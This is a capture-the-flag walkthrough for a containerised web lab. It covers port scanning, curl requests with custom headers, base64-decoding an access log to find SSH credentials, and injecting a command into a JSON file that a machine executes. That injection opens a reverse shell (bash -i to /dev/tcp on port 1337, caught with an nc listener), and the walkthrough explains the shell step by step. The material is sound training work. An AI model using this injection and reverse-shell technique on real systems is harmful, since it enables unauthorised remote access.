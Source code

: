 ## Walkthrough/tutorial

You’ve been provided with the ip addresses of the containers. Firstly, find the port on which the load balancer is serving the content, using `nmap`. If this is running on wsl or a VM, nmap that as the loadbalancer is exposed through port 8080. E.g. `nmap 172.22.121.123`. 

On the webpage, we are told to use `Accept : application/secret` on some requests. Furthermore it would make sense to reload the page with the network tab open. Noticing how the dialogue changes, one might look at the javascript and/or assume it's a get request.

![Screenshot 2025-06-09 121855](https://github.com/user-attachments/assets/44a3eb7c-cd05-4d41-b1f7-04edfc5d3ca3)


For simplicity, curl each webserver as the load balancer may give attention to 1-2 web servers due to timing.

```
curl <web1 ip>/s3cr3t/pasleyword  -> 22666C6167206973206174202F666C61672E747874h
curl <web2>/s3cr3t/pasleyword -> 404 Not Found
curl <web3>/s3cr3t/pasleyword -> Nothing here?
```
<br>
These are rather useless except for s3cr3t/pasleyword. <br>
Fixing the typo:

```
curl <web1 ip>/secret/password  ->  flag{L3g1t-fl_g}
curl <web2 ip>/secret/password -> in this request, look above
curl <web3 ip>/secret/password -> 
```
<br>
This is both confusing and misleading. Essentially, the hint from web2 means to check the response headers, since they sit above the response content. Furthermore, if we use the hint from before:

```
curl -i -H "Accept: application/secret" <web1 ip>/secret/password -> 
curl -i -H "Accept: application/secret" <web2 ip>/secret/password -> Snake, some of the comms have been hijacked, set the query = condition.the parameter is 'trust'
curl -i -H "Accept: application/secret" <web3 ip>/secret/password -> check access.log for 'Secret'
```
> - -i Include protocol response headers
> - -H adds a HTTP header to your request
> - Accept is typically used in web API’s to tell the server what type of response your client wants.

\
\
If we attempt to use the query/parameter hint at the moment we won’t find anything. So moving to web3:
```
curl <web3 ip>/access.log -o access1.log
```

Once the file is downloaded, you’ll notice the hashes end with = signs indicating they are encoded in base64:
\
\
![Screenshot 2025-06-09 132422](https://github.com/user-attachments/assets/5e7f3571-4836-4eb1-9442-e196ef8ef7a8)


```
grep -oP 'msg=\K[A-Za-z0-9+/=]+' access1.log | strings | base64 -d | grep "Secret"
```
> - -o Print only the matched (non-empty) parts
> - -P essentially enables regex

  
The regex will match everything after msg= and will then decode from base64, finally grepping “Secret”
This will return: `Secret: its a top secret password`
<br>
Considering the previous request was /secret/password, we can assume the complete request will be /top/secret/password. However, this won’t work. Instead if we combine everything together, we’ll get this: 
<br>
<br>

```
curl -i -H "Accept: application/secret" <any web ip>/top/secret/password?condition=trust
```
\
Which reveals:
`Snake, back on web3, the ssh on there is testuser:testpass. A protected_pc is broken and fetching a json file every so often from there`
<br>
So:

```
ssh testuser@<web 3 ip>
find / -name "*json" 2> /dev/null
```
Leading us to:
<br>

![Screenshot 2025-06-09 141728](https://github.com/user-attachments/assets/8fe4c56f-bbe5-4480-a75f-fb91a802d25c)

<br>
You’ll notice the file says echo, meaning perhaps this is being executed as bash. We can now enter our own malicious command to get reverse shell access.
<br>

![Screenshot 2025-06-09 141849](https://github.com/user-attachments/assets/f323b988-faa3-4e38-a336-51fea287128e)

> - bash -i → interactive bash shell
> - \>/dev/tcp/web3/1337 → opens a TCP connection to web3 on port 1337 and sends stdout there
> - 0>&1 → redirects stdin to the same place as stdout (so you can interact)
> - \>& is shorthand for redirecting both stdout (1) and stderr (2) to the TCP connection

<br>
Now we can listen to that port using netcat

```
nc -lvnp 1337
```
>- \-l → listen mode (wait for incoming connections)
>- \-v → verbose output (show connection details)
>- \-n → numeric-only IP addresses, no DNS lookups
>-  \-p 1337 → port number to listen on (here, 1337)

\
\
After a while:


![Screenshot 2025-06-09 142249](https://github.com/user-attachments/assets/bf3d3285-b2bc-4c29-8ce9-2b211a075a56)

Done!

